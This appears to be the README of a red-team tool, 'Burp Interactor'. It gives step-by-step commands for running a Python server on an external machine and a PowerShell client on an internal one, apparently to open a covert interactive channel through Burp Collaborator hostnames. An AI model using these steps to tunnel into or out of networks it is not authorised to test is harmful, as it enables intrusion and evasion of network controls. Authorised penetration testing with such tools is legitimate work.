 # Burp Interactor

## Usage

1. Open Burp Suite Professional.
2. Open Burp Collaborator Client tool.
3. Get a &lt;BURPCOLLABORATOR-HOSTNAME-1&gt; and URL decoded &lt;BIID-1&gt; for external to internal communication.
4. Get a &lt;BURPCOLLABORATOR-HOSTNAME-2&gt; and URL decoded &lt;BIID-2&gt; for internal to external communication.
5. Execute the python server script on the external computer.

```
sh > python3 bi-server.py <BURPCOLLABORATOR-HOSTNAME-1> <BIID-2> S3cr3tK3y
```

5. Execute the client powershell script on the internal computer.

```
PS > .\bi-client.ps1 <BURPCOLLABORATOR-HOSTNAME-2> <BIID-1> S3cr3tK3y
```
```
PS > .\bi-client.ps1 <BURPCOLLABORATOR-HOSTNAME-2> <BIID-1>
Enter Key: S3cr3tK3y
```
